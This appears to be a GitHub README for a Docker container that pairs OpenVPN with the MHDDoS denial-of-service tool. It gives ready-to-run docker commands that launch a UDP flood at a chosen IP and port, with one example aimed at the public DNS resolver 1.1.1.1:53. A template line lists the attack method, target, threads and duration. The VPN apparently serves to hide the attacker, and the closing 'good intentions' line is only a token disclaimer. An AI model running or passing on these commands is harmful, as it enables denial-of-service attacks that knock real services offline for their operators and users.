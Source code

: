 

# Opnevpn + MHDDos container

## Requirements:
- [openvpn](https://openvpn.net/community-downloads/);
- [autovpn3](https://duckduckgo.com/?t=ffab&q=autovpn3&ia=web);
- [MHDDoS](https://github.com/MHProDev/MHDDoS);


## Examples:

### run locally after git clone:
`docker run -it --rm ddoser python3 ./start.py udp 1.1.1.1:53 10 100`

### upload from docker:
`docker run -it ndh1/ddoser:latest python3 ./start.py udp 1.1.1.1:53 10 100`

`docker run -it ndh1/ddoser:latest python3 ./start.py {method} {ip}:{port} {threads} {duration}`


### Use only in good intentions

